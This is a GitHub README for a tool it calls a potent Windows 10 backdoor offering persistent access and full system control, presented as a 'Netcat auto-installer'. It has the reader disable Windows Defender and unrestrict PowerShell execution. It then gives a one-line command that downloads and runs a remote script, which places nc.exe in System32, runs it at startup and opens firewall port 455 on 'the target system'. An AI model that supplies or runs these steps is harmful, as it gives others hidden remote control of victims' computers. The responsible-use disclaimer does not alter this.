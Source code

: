 # PermanentRevershell-win10backdoor
 "PermanentRevershell: A potent Windows 10 backdoor providing persistent access and full system control. Explore its capabilities today!"
![image](https://github.com/alariordas/PermanentRevershell-win10backdoor/assets/80034759/82e62466-3dff-4a75-b90d-51602e27e753)

**Disclaimer: Use Responsibly**

This tool is provided for educational and legitimate security testing purposes only. The author (insert your name or username) does not condone or endorse any unauthorized or malicious use of this tool. Any actions and activities carried out using this tool are the sole responsibility of the user.

By downloading, using, or distributing this tool, you acknowledge and agree to use it in compliance with all applicable laws and ethical guidelines. Improper or unlawful use of this tool is strictly prohibited, and the author will not be held responsible for any consequences arising from such actions.

Please exercise caution and always obtain proper authorization before using this tool on systems or networks that you do not own or have explicit permission to test.

Use this tool responsibly and for legitimate purposes only.

**Note:** It is important to be aware of and comply with the laws and regulations governing cybersecurity and ethical hacking activities in your jurisdiction. Unauthorized access or malicious activities may result in legal consequences.





# Netcat Auto-Installer for Windows

This script automates the installation of Netcat on Windows systems. Netcat is a versatile networking utility that can be used for various purposes, including network testing and security assessments. Please use this script responsibly and only on systems and networks for which you have proper authorization.

## Features

- Downloads and extracts the Netcat ZIP file.
- Moves the `nc.exe` binary to the `System32` directory.
- Sets up Netcat to run at system startup.
- Enables a firewall rule to allow incoming connections on port 455.
- Removes temporary files after installation.

## Prerequisites

Before using this script, ensure that you have:

- Windows operating system.
- Administrator privileges.
- PowerShell enabled for script execution. You can do this by running:
- Windows Defender desactivated during the execution of the script

```powershell
Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force
```

## Usage

### Automated Installation

1. Press `Windows + R` to open the Run dialog.
2. Type ```powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PermanentRevershell-win10backdoor/main/ncinstaller.ps1 -UseBasicParsing);``` and press `Ctrl + Enter` to open PowerShell with Administrator privileges.

```powershell
powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PermanentRevershell-win10backdoor/main/ncinstaller.ps1 -UseBasicParsing);
```
The script will be executed automatically. However, please note that it may not work on all systems. If you encounter issues, you may need to adapt the script to the target system's properties.

